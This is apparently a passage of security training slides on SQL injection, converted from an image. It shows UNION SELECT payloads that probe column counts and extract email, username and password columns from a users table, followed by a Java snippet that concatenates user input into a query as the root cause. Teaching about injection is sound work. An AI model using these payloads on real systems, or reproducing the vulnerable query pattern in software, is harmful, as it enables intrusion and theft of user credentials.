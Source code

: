 returning all records with "owasp" somewhere in the title.

---

# Exploit Examples

## Spying out Data

:-1: This will **not** work unless both result sets coincidentally have
an equal number of columns:

```sql
' UNION SELECT * FROM users--
```

:point_up: Additional closing braces might be needed depending on the
original query:

```sql
') UNION SELECT * FROM users--
```

---

Static values are useful to probe for the right number of result set
columns:

```sql
' UNION SELECT 1 FROM users--
```

```sql
' UNION SELECT 1,2 FROM users--
```

```sql
' UNION SELECT 1,2,3 FROM users--
```

1=:-1:, 2=:-1:, 3=:+1:!

Now only some actual column names have to be guessed or inferred:

```sql
' UNION SELECT email,username,passwd FROM users--
```

---

# :x: Root Cause of SQL Injection

```java
String query =
        "SELECT * FROM books " +
        "WHERE title LIKE '%" + req.getParameter("query") + "%'";

 	Statement statement = connection.createStatement();
 	ResultSet results = statement.executeQuery(query);
```
